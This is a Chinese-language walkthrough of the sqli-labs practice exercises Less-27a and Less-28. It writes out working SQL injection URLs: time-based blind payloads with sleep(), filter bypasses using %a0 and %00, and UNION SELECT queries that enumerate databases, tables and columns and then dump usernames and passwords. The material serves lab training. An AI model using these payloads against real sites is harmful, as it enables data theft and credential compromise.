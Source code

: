 **以下步骤与Sqli-labs-Less-27相似，不进行详细叙述**<br />注意：<br />Sqli-labs-Less-27中是?id=1'<br />Sqli-labs-Less-27a中是?id=1"<br />并且Sqli-labs-Less-27a不能使用报错注入，因为没有报错回显，不过可使用时间注入。


# Sqli-labs-Less-27a 方法二
**其中%26%26 代表 &&**

1. http://www.web.com/sql/Less-27a/?id=1"%26%26 if(length(database())=8,1,sleep(5))  %26%26 %0a"1"="1<br />注意：在句子后面不能使用or，因为使用or的情况下，无论如何情况返回都会是真。<br />http://www.web.com/sql/Less-27a/?id=1"%26%26 if(length(database())=8,1,sleep(5))  || %0a"1"="1 这种写法是错误的

2. http://www.web.com/sql/Less-27a/?id=1111" || if(length(database())=8,1,sleep(5))%26%26%0a"1"="1这样写也是可以的


# Sqli-labs-Less-28
![](https://img-blog.csdnimg.cn/20200723111405132.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=jfofB&originHeight=360&originWidth=1157&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查找注入点**<br />http://www.web.com/sql/Less-28/?id=1'<br />报错<br />http://www.web.com/sql/Less-28/?id=1';%00<br />依然报错<br />http://www.web.com/sql/Less-28/?id=1') ;%00<br />成功，说明存在注入点<br />![](https://img-blog.csdnimg.cn/20200723095341605.png#crop=0&crop=0&crop=1&crop=1&id=gHHNH&originHeight=138&originWidth=462&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看列数（使用%a0代替空格）**<br />http://www.web.com/sql/Less-28/?id=1') %a0order%a0by%a03 ;%00<br />斜体样式成功，说明有三列<br />![](https://img-blog.csdnimg.cn/20200723100604597.png#crop=0&crop=0&crop=1&crop=1&id=Jm5ah&originHeight=126&originWidth=439&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看当前库**<br />http://www.web.com/sql/Less-28/?id=1111') %a0union%a0select%a01,2,database() ;%00<br />![](https://img-blog.csdnimg.cn/20200723100733379.png#crop=0&crop=0&crop=1&crop=1&id=Mtrci&originHeight=141&originWidth=411&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有库**<br />http://www.web.com/sql/Less-28/?id=1111') %a0union%a0select%a01,2,group_concat(schema_name)%a0from%a0information_schema.schemata;%00<br />![](https://img-blog.csdnimg.cn/20200723100849776.png#crop=0&crop=0&crop=1&crop=1&id=XdG17&originHeight=158&originWidth=1226&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表**<br />http://www.web.com/sql/Less-28/?id=1111') %a0union%a0select%a01,2,group_concat(table_name)%a0from%a0information_schema.tables%a0where%a0table_schema='security';%00<br />![](https://img-blog.csdnimg.cn/20200723101045347.png#crop=0&crop=0&crop=1&crop=1&id=csj0A&originHeight=146&originWidth=551&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有字段**<br />http://www.web.com/sql/Less-28/?id=1111') %a0union%a0select%a01,2,group_concat(column_name)%a0from%a0information_schema.columns%a0where%a0table_name='users';%00<br />![](https://img-blog.csdnimg.cn/20200723101209660.png#crop=0&crop=0&crop=1&crop=1&id=lzbv2&originHeight=194&originWidth=1353&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看账户和密码**<br />http://www.web.com/sql/Less-28/?id=1111') %a0union%a0select%a01,2,group_concat(concat_ws('~',username,password))%a0from%a0security.users;%00<br />![](https://img-blog.csdnimg.cn/20200723101326118.png#crop=0&crop=0&crop=1&crop=1&id=ik07Z&originHeight=181&originWidth=1349&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**以此类推爆出所有数据。**
